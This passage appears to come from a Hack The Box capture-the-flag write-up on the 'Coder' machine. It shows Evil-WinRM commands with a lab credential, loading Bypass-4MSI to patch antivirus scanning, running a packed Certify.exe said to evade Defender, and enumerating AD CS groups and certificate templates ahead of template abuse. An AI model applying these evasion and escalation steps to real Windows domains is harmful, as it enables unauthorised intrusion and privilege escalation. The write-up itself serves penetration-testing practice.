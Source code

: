This binary will not be blocked by Defender anymore! :
Now let's continue with our active directory tomfoolery.

We can also use Evil-winrm to load in powershell scripts. To do so make a directory with your scripts I.E /pwsh/ and start evil-winrm with the -s parameter:

```zsh
evil-winrm -i coder.htb -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -s ./pwsh/
```

Then we can run Bypass-4MSI to patch the AV and we can import it by just typing the name of the powershell script.

## Resuming AD Tomfoolery

{{< notice "note" >}}
noun: *tomfoolery*
- "foolish or silly behaviour."
{{< /notice >}}

By using our packed Certify.exe binary we can enumerate PKI object controllers.
```powershell
*Evil-WinRM* PS C:\Users\e.black\Documents> .\CertifyExecAssemblyNimPackt.exe pkiobjects
```
We notice that our user `e.black` who is in the `PKI Admins` group has some interesting rights.
![](images/ba3f9bb0-ebf9-43c9-9f8a-68059815b516.png)

Running the following commands reveals a Description for this group.
```
*Evil-WinRM* PS C:\Users\e.black\Documents> net GROUP "PKI Admins" /domain
```
```
Group name     PKI Admins
Comment        ADCS Certificate and Template Management
 
Members
 
-------------------------------------------------------------------------------
e.black
The command completed successfully.
```


The important part here is that we can manage templates. Previous attempts with certipy failed possible because we can't do it remotely. Let's make another attempt using Certify.exe.

Let's enumerate the certificate templates for our tomfoolery purposes

1. Coder-WebServer
2. KerberosAuthentication
3. DirectoryEmailReplication
4. DomainControllerAuthentication
5. SubCA
6. WebServer
7. DomainController
8. Machine
9. EFSRecovery
10. Administrator
11. EFS
12. User
